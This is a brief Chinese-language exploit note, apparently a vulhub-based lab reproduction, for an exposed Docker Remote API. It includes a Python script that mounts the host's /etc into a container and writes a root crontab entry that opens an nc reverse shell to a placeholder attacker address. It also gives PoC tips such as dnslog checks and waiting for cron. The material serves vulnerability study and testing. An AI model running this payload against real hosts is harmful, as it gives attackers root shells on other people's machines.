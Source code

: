 ### 复现环境

这个环境，就直接去vulhub上面找吧

### 利用方法

利用方法是，我们随意启动一个容器，并将宿主机的/etc目录挂载到容器中，便可以任意读写文件了。我们可以将命令写入crontab配置文件，进行反弹shell。

下面是来自vulhub的一个简单的python脚本

```python

import docker

client = docker.DockerClient(base_url='http://your-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

上面执行的命令是利用nc反弹shell,我们在写python poc的时候可以执行ping命令，利用dnslog的方式来验证漏洞

![](assets/crontab.png)


### python poc效果

再编写python poc时需要注意，docker任务计划表还是有一定延时才能执行命令，所以，我们需要使用time.sleep()等待几秒钟
![](assets/python_poc.png)
